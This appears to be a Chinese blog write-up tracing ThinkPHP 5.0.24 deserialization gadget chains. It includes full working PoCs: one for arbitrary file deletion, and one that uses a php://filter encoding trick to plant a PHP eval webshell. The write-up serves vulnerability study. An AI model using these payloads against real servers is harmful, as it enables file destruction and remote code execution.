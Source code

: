 前言：
下载地址：下载：ThinkPHP5.0.24核心版 - ThinkPHP框架

利用的phpstudy+PhpStorm搭建的debug环境。

首先在app\index\controller下的index.php设置一个传入点。

index.php

<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        echo 'welcome to tp5024';
        if(isset($_GET['feng'])){
            $feng = base64_decode($_GET['feng']);
            unserialize($feng);
        }
    }
}
一开始接触，感觉最好找一个链子，debug一下，一步一步跟，不然直接自己找的话会看的头疼。

任意删除文件
在Windows.php的__destruct中。



 跟进一下removeFiles。

private function removeFiles()
    {
        foreach ($this->files as $filename) {
            if (file_exists($filename)) {
                @unlink($filename);
            }
        }
        $this->files = [];
    }
 大概意思是对files遍历，将file赋值给filename，跟一下file。



发现file可控，然后看一下file在哪个类里。



发现Windows继承了 Pipes。

poc
<?php

namespace think\process\pipes;

class Pipes{}

class Windows extends Pipes
{
    private $files = ['D:\phpstudy_pro\WWW\tp5024\1.txt'];
}

echo base64_encode(serialize(new Windows()));
下个断点，很容易看清其走向。



 

 

 然后便会发现1.txt已经被删除。

恶意文件上传
file_exists搭配对象可以跳到__toString。


 在Model.php的__toString中，进入tojson然后跟进，到toArray()。

    public function __toString()
    {
        return $this->toJson();
    }
     
    public function toJson($options = JSON_UNESCAPED_UNICODE)
    {
        return json_encode($this->toArray(), $options);
    }


 三处存在__call漏洞可能
$item[$key] = $relation->append([$attr])->toArray();
$bindAttr = $modelRelation->getBindAttr();
$item[$key] = $value ? $value->getAttr($attr) : null;
找一下可控变量，$value可控，往上边跟一下。

$value = $this->getRelationData($modelRelation);
$value是在getRelationData中返还，跟进看一下。



$value = $this->parent;
看一下parent是否可控，发现可控，看一下if条件。



三个条件：

$this->parent
!$modelRelation->isSelfRelation()
get_class($modelRelation->getModel()) == get_class($this->parent)
第一个：parent可控。

第二个：



 可控

第三个：跟进getModel函数



 query可控，然后又调用了getModel,再跟进，在thinkphp\library\think\db\Query.php中发现getModel方法。



 返还model，参数可控。

绕过getRelationData方法中的三个条件
三个条件都可以满足，可以进入if条件。

再看下边代码中的$modelRelation参数。

$value = $this->getRelationData($modelRelation);


$modelRelation被relation控制，relation被Loader::parseName控制，跟一下。

发现其只是一个大小写变化，不会改变name参数，因为$name可控，所以$relation可控。

if (method_exists($this, $relation)) {
               $modelRelation = $this->$relation();
               $value         = $this->getRelationData($modelRelation);
想进入if语句，需要满足这个method_exists，则需要将$relation设定为$this中存在的方法，relation可以控制，this指的是Model这个类，看一起其中哪一个方法返回参数可以直接控制。



发现了getError方法，且返回的error参数可以直接控制。

error参数的值刚好直接可以返还给$modelRelation。

$modelRelation = $this->$relation();
这里的relation()可以直接当作getError()，返还error的值，所以$modelRelation=$error

想进入改语句，需要先解决前边几个if条件。

if (method_exists($modelRelation, 'getBindAttr'))
$bindAttr = $modelRelation->getBindAttr()
if ($bindAttr)
下边的一个if语句刚好就是modelRelation的getBindAttr方法返回的值，跟一下getBindAttr。

在OneToOne.php发现该方法，并且bindAttr可控，第二个if条件也可以过了。

    public function getBindAttr()
    {
        return $this->bindAttr;
    }
OneToOne是一个抽象类，且OneToOne类是Relation类的派生类，然后找一下谁继承了OneToOne，找到了class HasOne extends OneToOne，HasOne继承了OneToOne。可以直接让让$modelRelation的值为HasOne，可以满足getRelationData方法中if第三个条件的getModel方法，并且其中也有bindAttr可控。

然后进入if (isset($this->data[$key]))的else条件便可以调用__call方法。

调用__call之后的操作
public function __call($method, $args)
    {
        if (in_array($method, $this->styles)) {
            array_unshift($args, $method);
            return call_user_func_array([$this, 'block'], $args);
        }

        if ($this->handle && method_exists($this->handle, $method)) {
            return call_user_func_array([$this->handle, $method], $args);
        } else {
            throw new Exception('method not exists:' . __CLASS__ . '->' . $method);
        }
    }

}

call函数中in_array的$method, $this->styles两个参数可控，可以进入if语句，然后可以实现block方法，跟进一下block。



直接到了write方法，发现handel可控，找一个存在可控write方法的类利用。 



 $this->handler可控，再找一下可以利用的set方法。

在thinkphp\library\think\cache\driver\File.php中发现set且存在一个写入文件的操作。

public function set($name, $value, $expire = null)
    {
        if (is_null($expire)) {
            $expire = $this->options['expire'];
        }
        if ($expire instanceof \DateTime) {
            $expire = $expire->getTimestamp() - time();
        }
        $filename = $this->getCacheKey($name, true);
        if ($this->tag && !is_file($filename)) {
            $first = true;
        }
        $data = serialize($value);
        if ($this->options['data_compress'] && function_exists('gzcompress')) {
            //数据压缩
            $data = gzcompress($data, 3);
        }
        $data   = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
        $result = file_put_contents($filename, $data);
        if ($result) {
            isset($first) && $this->setTagItem($filename);
            clearstatcache();
            return true;
        } else {
            return false;
        }
    }

首先看一下filename和data是否可控。

$filename = $this->getCacheKey($name, true);
filename由getCacheKey决定，跟一下getCacheKey。

$filename = $this->options['path'] . $name . '.php';
filename类型后缀为php，前边的options['path']和name可控。



 很明显可以看出$data=$value=$sessData=$newline=ture,所以data不可控，直接这样写入文件行不通，但在后边的setTagItem方法中，再一次调用了set方法。

    protected function setTagItem($name)
    {
        if ($this->tag) {
            $key       = 'tag_' . md5($this->tag);
            $this->tag = null;
            if ($this->has($key)) {
                $value   = explode(',', $this->get($key));
                $value[] = $name;
                $value   = implode(',', array_unique($value));
            } else {
                $value = $name;
            }
            $this->set($key, $value, 0);
        }
    }

此时$key和$value均可控。

利用php为协议来绕过exit();?>
利用php://filter中string.rot13过滤器去除”exit”。string.rot13的特性是编码和解码都是自身完成，利用这一特性可以去除exit。<?php exit;在经过rot13编码后会变成<?cuc rkvg();，前提是PHP不开启short_open_tag。

但这次遇到的和平常的不太一样，本地尝试一下如何才能绕过。

<?php
$filename=$_GET['filename'];
$content1=$_GET['content'];
$data   = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $content1;
file_put_contents($filename,$data);
?>
当我前边加一个a时。



 当加到三个a时，发现成功。



 

 

所以要使用伪协议绕过时，需要前方加入字符来使其可以进行base64解码。

第二次file_put_contents($filename, $data);时的filename和data数据基本一样，所以我又本地试了一下。

<?php
$filename=$_GET['filename'];
$content=$filename;
$data   = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $content;
echo $data;
file_put_contents($filename,$data);
?>
这次需要用到php://filter/convert.iconv.utf-8.utf-7|convert.base64-decode/resource=aaaPD9waHAgcGhwaW5mbygpOz8+IA==/../1.php，之前的payload无法成功。

php的php://filter/convert.iconv.UTF8.UTF-7这种filter可以用来转换编码，和linux系统中的iconv命令一致，可以用来转xml进行xxe-waf绕过。

成功后便可以开始写exp，我写了好多次才成功。

首先先把进入tostring那一部分写出来。

<?php

namespace think\process\pipes;
abstract class Pipes
{
}

use think\model\Pivot;

class Windows extends Pipes
{
    private $files = [];

    function __construct()
    {
        $this->files = [];
    }
}

给files赋值成对象，tostring在Model中，但Model是一个抽象类，无法直接实例化，找一下Model的继承类，然后回头看一下Model中都需要改哪一些参数。

首先是append的key最后要赋值给$relation，然后还会将relation当作方法利用返回$modelRelation所以要让append = ['getError'],紧接着就是判断$modelRelation中是否有getBindAttr方法。我们做的操作是给getError中返还的error参数赋值成HasOne()对象，让$modelRelation=new HasOne()，因为HasOne继承了抽象类OneToOne，且其中存在可控的getBindAttr方法及参数bindAttr。

然后就到了给$value赋值，value是跳到call的关键点，到getRelationData，让parent=new Output(),Relation抽象类中的$selfRelation=false，此时便可使value等于new Output()。

$bindAttr = $modelRelation->getBindAttr();
 getBindAttr方法是OneToOne中的，返还的是bindAttr，这里给bindAttr赋值=["no","1"],可以绕过if (isset($this->data[$key]))，直接进入else，然后再进入Output中的call方法。

对call方法分析，首先是进入第一个if条件，in_array($method, $this->styles)返回真，因为method是从Mode中的$attr直接赋值过来的，所以使method相等in_array即可返回真，$attr是$bindAttr的键值，调试一下。



 发现method为getAttr，所以令$this->styles='getAttr'即可。

后边就是绕过死亡函数，上边已经讲过了，就不再说了。

poc
<?php

namespace think\process\pipes;
abstract class Pipes
{
}

use think\model\Pivot;

class Windows extends Pipes
{
    private $files = [];

    function __construct()
    {
        $this->files = [new Pivot()];
    }
}

namespace think;
use think\model\relation\HasOne;
use think\console\Output;
use think\db\Query;
abstract class Model{
    protected $append = [];
    protected $error;
    public $parent;
    protected $query;
    function __construct()
    {
        $this->append=['getError'];
        $this->error=new HasOne();
        $this->query=new Query();
        $this->parent=new Output();
    }
}
namespace think\model;
use think\Model;
class Pivot extends Model{
}

namespace think\model\relation;
use think\model\Relation;

abstract class OneToOne extends Relation{ # OneToOne抽象类
    function __construct(){
        parent::__construct();
    }
}
// HasOne
class HasOne extends OneToOne{
    protected $bindAttr = [];
    function __construct(){
        parent::__construct();
        $this->bindAttr = ["no","123"];
    }
}
namespace think\model;
use think\db\Query;
abstract class Relation{
    protected $selfRelation;
    protected $query;
    function __construct(){
        $this->selfRelation = false;
        $this->query= new Query();
    }
}
namespace think\db;
use think\console\Output;
class Query{
    protected $model;
    function __construct(){
        $this->model = new Output(); //让其与parent一直，通过getRelationData的第三个条件
    }
}
namespace think\console;
use think\session\driver\Memcache;
class Output{
    private $handle = null;
    protected $styles = [];
    function __construct()
    {
        $this->styles = ['getAttr'];
        $this->handle=new Memcache();
    }

}

namespace think\session\driver;
use think\cache\driver\File;
class Memcache
{
    protected $handler = null;

    function __construct()
    {
        $this->handler = new File();
    }
}
namespace think\cache\driver;
class File
{
    protected $options = [];
    protected $tag;

    function __construct()
    {
        $this->options = [
            'expire' => 0,
            'cache_subdir' => false,
            'prefix' => '',
            'path'=>'php://filter/convert.iconv.utf-8.utf-7|convert.base64-decode/resource=aaaPD9waHAgQGV2YWwoJF9QT1NUWydmZW5nJ10pOz8+IA==/../feng.php',
            'data_compress' => false,
        ];
        $this->tag = true;
    }
     
    public function Getfilename()
    {
        $name = md5('tag_' . md5($this->tag));
        $filename = $this->options['path'];
        $pos = strpos($filename, "/../");
        $filename = urlencode(substr($filename, $pos + strlen("/../")));
        return $filename . $name . ".php";
    }
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
echo "\n";
$a = new File();
echo $a->Getfilename();

 传参后直接访问文件，文件名就是exp中打印出来的文件名



另一个rce链子因为环境问题一直没复现成功，等之后再加吧。

感觉自己太菜了，就这么一点代码，跟了一整天才搞完。

参考文章：

(7条消息) Thinkphp 5.0.24反序列化漏洞导致RCE分析_浔阳江头夜送客丶的博客-CSDN博客_thinkphp v5.0.24 漏洞

(7条消息) thinkphp5.0.24反序列化链子分析_XiLitter的博客-CSDN博客_thinkphp v5.0.24